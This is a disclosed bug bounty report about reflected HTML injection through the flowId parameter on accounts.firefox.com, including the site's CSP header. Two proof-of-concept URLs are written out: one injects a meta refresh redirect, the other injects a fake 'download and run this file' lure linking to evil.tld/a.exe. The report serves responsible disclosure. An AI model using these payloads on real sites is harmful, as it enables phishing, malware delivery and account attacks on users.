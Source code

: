 # HTML Injection / Reflected Cross-Site Scripting with CSP on https://accounts.firefox.com/settings

## Report Details
- **Report ID**: 1880896
- **URL**: https://hackerone.com/reports/1880896
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-02-21T11:35:06.010Z
- **Disclosed**: 2023-04-04T11:13:58.292Z

## Reporter
- **Username**: celesian
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mozilla

## Vulnerability Information
## Summary:
Good morning,

There is a vulnerability on accounts.firefox.com, where the flowId parameter is reflected into the server response without being escaped for HTML. This causes a Cross-Site Scripting attack, which may allow attackers to take over accounts. 
To do that, one would need to bypass the Content-Security-Policy on Firefox's website, which looks like this:
```http
Content-Security-Policy: connect-src 'self' https://api.accounts.firefox.com https://graphql.accounts.firefox.com https://oauth.accounts.firefox.com https://profile.accounts.firefox.com wss://channelserver.services.mozilla.com https://channelserver.services.mozilla.com https://*.sentry.io http://localhost:4318;default-src 'self';form-action 'self' https://accounts.google.com https://appleid.apple.com;font-src 'self' https://accounts-static.cdn.mozilla.net;frame-src 'none';img-src 'self' blob: data: https://secure.gravatar.com https://firefoxusercontent.com https://profile.accounts.firefox.com https://accounts-static.cdn.mozilla.net;media-src blob:;object-src 'none';report-uri /_/csp-violation;script-src 'self' https://accounts-static.cdn.mozilla.net;style-src 'self' https://accounts-static.cdn.mozilla.net;base-uri 'self';frame-ancestors 'self';script-src-attr 'none';upgrade-insecure-requests
```
Bypassing the Content-Security-Policy was not done yet, and I am not sure if its even doable. Therefore I am reporting the vulnerability as is because even without Javascript execution there are some attacks that are still possible script-less. One theoretical attack that could be possible is using the connect-src directive to make requests to the http://localhost:4318 URL and then possibly leak traces or other sensitive data from OpenTelemetry Collector (making Mozilla employees possibly a target for this attack).

## PoCs
1. Open Redirect
https://accounts.firefox.com/settings?deviceId=cc10a15a5ac94bdf8a9a0bc5b2912520&flowBeginTime=1676972087857&flowId=%22%3E%3Cmeta%20http-equiv=%22refresh%22%20content=%221;%20http://example.com%22%3E&broker=web&context=web&isSampledUser=false&service=none&uniqueUserId=dbf23f86-d3d1-4576-92bc-ebaa4fd14795

2. UI Redressing
https://accounts.firefox.com/settings?deviceId=cc10a15a5ac94bdf8a9a0bc5b2912520&flowBeginTime=1676972087857&flowId=e587d1d6ceb%22%3E%3Ch1%3EYour+machine+needs+to+be+analyzed.+Please+download+and+run+this+file+to+continue%3a+%3Ca+href%3d%22http%3a//evil.tld/a.exe%22%3EClick%20here%20to%20Download%3C/a%3E%3C/h1%3E%3C!--&broker=web&context=web&isSampledUser=false&service=none&uniqueUserId=dbf23f86-d3d1-4576-92bc-ebaa4fd14795

## Impact

An attacker can inject HTML on the page and potentially run attacks involving user interaction, with achieving arbitrary javascript code execution not being possible due to the Content Security Policy installed on the server.

## Attachments
No attachments
